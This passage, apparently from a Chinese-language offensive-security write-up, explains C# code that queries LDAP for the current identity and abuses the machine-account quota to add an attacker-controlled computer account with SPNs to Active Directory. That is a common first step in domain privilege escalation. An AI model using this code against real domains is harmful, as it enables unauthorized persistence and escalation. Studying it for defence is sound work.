 ```c#
    }
            
    if (connection != null)
    {
        this.connection = connection;
        Console.WriteLine("[*] Established connection to Active Directory.");
        // # 1.3.6.1.4.1.4203.1.11.3 = OID for LDAP_SERVER_WHO_AM_I_OID (see MS-ADTS 3.1.1.3.4.2 LDAP Extended Operations)
        // https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/faf0b8c6-8c59-439f-ac62-dc4c078ed715
        ExtendedRequest extendedRequest = new ExtendedRequest("1.3.6.1.4.1.4203.1.11.3");
        try
        {
            ExtendedResponse extendedResponse = (ExtendedResponse)this.connection.SendRequest(extendedRequest);
            Console.Write("[*] Operating LDAP As : ");
            Console.WriteLine(Encoding.UTF8.GetString(extendedResponse.ResponseValue, 0, extendedResponse.ResponseValue.Length));
        }
        catch (DirectoryOperationException e)
        {
            Console.WriteLine(e.ToString());
        }
    }
}
```

连接建立后，会向 LDAP 发送 `LDAP_SERVER_WHO_AM_I_OID` 扩展操作，用于获取当前连接的用户帐户名。

### Add New Machine Account

与 LDAP 服务建立连接后，通过 `AddRequest` 向活动目录发送一个请求，在 `CN=Computers` 目录下创建一个新的计算机对象，同时设置它的 `DnsHostName`、`SamAccountName`、`userAccountControl`、`unicodePwd`、`objectClass` 以及 `ServicePrincipalName` 等属性。最后通过 `SearchRequest` 发送一个查询请求，获取新添加的计算机对象的 SID 并返回。

```c#
public SecurityIdentifier AddComputer(string DomainName, string DistinguishedName, string MachineAccount, string MachinePassword)
{
    SecurityIdentifier securityIdentifier = null;
    // Adds an entry to the CN=Computers directory
    AddRequest addRequest = new AddRequest(DistinguishedName, new DirectoryAttribute[] {
        new DirectoryAttribute("DnsHostName", MachineAccount + "." + DomainName),
        new DirectoryAttribute("SamAccountName", MachineAccount + "$"),
        new DirectoryAttribute("userAccountControl", "4096"),
        new DirectoryAttribute("unicodePwd", Encoding.Unicode.GetBytes("\"" + MachinePassword + "\"")),
        new DirectoryAttribute("objectClass", "Computer"),
        new DirectoryAttribute("ServicePrincipalName", "HOST/" + MachineAccount + "." + DomainName, "RestrictedKrbHost/" + MachineAccount + "." + DomainName, "HOST/" + MachineAccount, "RestrictedKrbHost/" + MachineAccount)
    });

    try
    {
        this.connection.SendRequest(addRequest);
        Console.WriteLine($"[*] Machine account {MachineAccount}$ added.");
    }
    catch (Exception ex)
    {
        Console.WriteLine("[-] The new machine could not be created! User may have reached ms-DS-MachineAccountQuota limit.");
    }

```